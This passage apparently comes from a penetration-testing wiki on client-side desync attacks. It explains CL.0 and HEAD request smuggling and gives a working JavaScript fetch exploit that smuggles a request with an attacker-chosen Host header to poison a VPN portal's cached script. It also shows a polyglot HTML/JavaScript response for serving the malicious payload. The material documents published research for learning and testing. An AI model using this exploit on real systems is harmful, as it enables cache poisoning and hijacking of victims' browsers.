 Explanation:

* **Abuse of CL.0** in /assets (it redirects to /assets/ and doesn't check the CL)
* **Smuggle** a **HEAD** request (because HEAD responses still contains a content-length)
* **Smuggle** a **GET** request whose **content** is going be **reflected** in the response with the payload.
  * Because of the **content-length of the HEAD** req, the **response** of this request will be the **body of the HEAD req**
* Set **cors mode**. Normally this isn't done, but in this case the **response** of the server to de **initial** **POST** is a **redirect** that if **followed** the **exploit won't work**. Therefore, **cors mode** is used to **trigger** an **error** and **redirect** the victim with the **`catch`**.

### **Host header redirect + client-side cache poisoning**

* **JS exploit**

```javascript
fetch('https://redacted/', {
    method: 'POST',
    body: "GET /+webvpn+/ HTTP/1.1\r\nHost: x.psres.net\r\nX: Y",
    credentials: 'include'}
).catch(() => { location='https://redacted/+CSCOE+/win.js' })
```

* A request to `/+webvpn+/` with a **different domain in the Host header** is answered with a **redirect** to `/+webvpn+/index.html` to that **domain** inside the Host header.
* The location in the **second** request is set to `/+CSCOE+/win.js` in order to **poison** the **cache** of that `.js` file.
  * This request will be answered with the redirect of `/+webvpn+/` to the attackers domain with path`/+webvpn+/index.html`
* The **cache** of **`win.js`** will be **poisoned** with a **redirect** to the **attackers** page, but also the **victim** will **follow** the redirect as it was assigned in the `location` variable and will end in the attackers web page.
* The attacker will then **redirect** the **victim** to `https://redacted/+CSCOE+/logon.html`. This page will import `/+CSCOE+/win.js`. Whose **cache is a redirect** to the **attackers** server, therefore, the attacker can **respond with a malicious JS**.

The **victim** will **access** the page of the **attacker** **twice**, the first one it **expects a HTML** that redirect the victim back to `https://redacted/+CSCOE+/logon.html` and the second one it **expects javascript code** (the payload). A polyglot can be used to serve both responses in just one:

```
HTTP/1.1 200 OK
Content-Type: text/html

alert('oh dear')/*<script>location = 'https://redacted/+CSCOE+/logon.html'</script>*/
```

### HEAD payload with chunked TE

When looking for CSD you can also **test semi-malformed** URLs like `/..%2f` or `/%2f`.

* **Coloured Exploit**
